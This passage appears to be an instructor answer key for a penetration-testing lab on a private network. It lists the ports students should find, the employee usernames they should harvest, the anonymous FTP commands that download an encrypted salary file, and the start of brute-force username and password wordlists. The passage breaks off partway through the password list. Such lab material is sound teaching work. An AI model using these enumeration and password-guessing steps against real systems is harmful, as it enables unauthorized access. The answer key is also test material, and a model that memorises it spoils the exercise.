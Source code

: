 **Expected Ports Discovered:**
- 172.20.0.2: 1025/tcp (SMTP - MailHog), 8025/tcp (HTTP - MailHog Web UI)
- 172.20.0.3: 22/tcp (SSH - OpenSSH)
- 172.20.0.4: 21/tcp (FTP - vsftpd)
- 172.20.0.5: 80/tcp (HTTP - Apache)
- 172.20.0.6: 110/tcp (POP3 - Dovecot), 143/tcp (IMAP - Dovecot)

### Web Enumeration
```bash
curl http://172.20.0.5
```

**Expected Findings:**
Students should extract these employee names and emails:
- Alice Adams → aadams@de-ice.net → username: aadams
- Bob Banter → bbanter@de-ice.net → username: bbanter
- Carol Coffee → ccoffee@de-ice.net → username: ccoffee
- Dave Deeds → ddeeds@de-ice.net → username: ddeeds
- Eve Eikman → eeikman@de-ice.net → username: eeikman

## Phase 2: Service Enumeration (Answers)

### FTP Service Investigation
```bash
ftp 172.20.0.4
# Username: anonymous
# Password: (just press Enter)

ftp> ls
ftp> cd incoming
ftp> ls
ftp> binary
ftp> get salary_dec2003.csv.enc
ftp> quit
```

**Expected Result:** Successfully downloads encrypted salary file

### SSH Service Banner
```bash
ssh 172.20.0.3
```

**Expected Banner:** OpenSSH server accepting password authentication

## Phase 3: Exploitation (Step-by-Step Solutions)

### Create Wordlists
```bash
# Username list
cat > users.txt << 'EOF'
aadams
bbanter
ccoffee
ddeeds
eeikman
root
admin
EOF

# Password list (includes common passwords + reversed usernames)
cat > passwords.txt << 'EOF'
password
password123
```